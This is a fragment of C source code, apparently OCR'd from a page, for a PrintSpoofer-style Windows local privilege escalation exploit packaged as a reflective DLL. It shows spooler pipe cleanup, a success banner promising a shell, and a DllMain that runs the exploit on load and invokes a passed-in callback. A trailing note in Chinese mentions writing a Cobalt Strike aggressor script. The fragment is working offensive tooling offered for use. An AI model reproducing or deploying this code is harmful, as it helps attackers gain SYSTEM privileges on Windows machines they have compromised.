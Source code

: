 ```
 
    if (!GetSystem(hSpoolPipe)) {
        bResult = FALSE;
        goto cleanup;
    }
    wprintf(L"[+] Exploit successfully, enjoy your shell\n");
 
cleanup:
    if (hSpoolPipe)
        CloseHandle(hSpoolPipe);
    if (hSpoolPipeEvent)
        CloseHandle(hSpoolPipeEvent);
    if (hSpoolTriggerThread)
        CloseHandle(hSpoolTriggerThread);
 
    return bResult;
}
 
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpReserved) {
    BOOL bReturnValue = TRUE;
    DWORD dwResult = 0;
 
    switch (dwReason) {
    case DLL_QUERY_HMODULE:
        if (lpReserved != NULL)
            *(HMODULE*)lpReserved = hAppInstance;
        break;
    case DLL_PROCESS_ATTACH:
        hAppInstance = hinstDLL;
        if (PrintSpoofer()) {
            fflush(stdout);
 
            if (lpReserved != NULL)
                ((VOID(*)())lpReserved)();
        } else {
            fflush(stdout);
        }
 
        ExitProcess(0);
        break;
    case DLL_PROCESS_DETACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
        break;
    }
    return bReturnValue;
}
```

cna编写

